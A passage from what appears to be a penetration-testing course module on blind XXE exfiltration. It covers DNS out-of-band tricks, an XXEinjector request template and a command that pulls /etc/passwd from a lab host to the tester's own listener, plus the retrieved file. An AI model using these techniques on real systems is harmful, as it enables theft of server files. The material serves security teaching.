 
**Tip**: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

# Blind data exfiltration, automated OOB exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools.

One such tool is **XXEinjector**. This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write XXEINJECT after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the --host/--httpport flags being our IP and port, the --file flag being the file we wrote above, and the --path flag being the file we want to read. We will also select the --oob=http and --phpfilter flags to repeat the OOB attack we did above, as follows:

```bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the Logs folder under the tool, and we can find our file there:

```bash
cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```
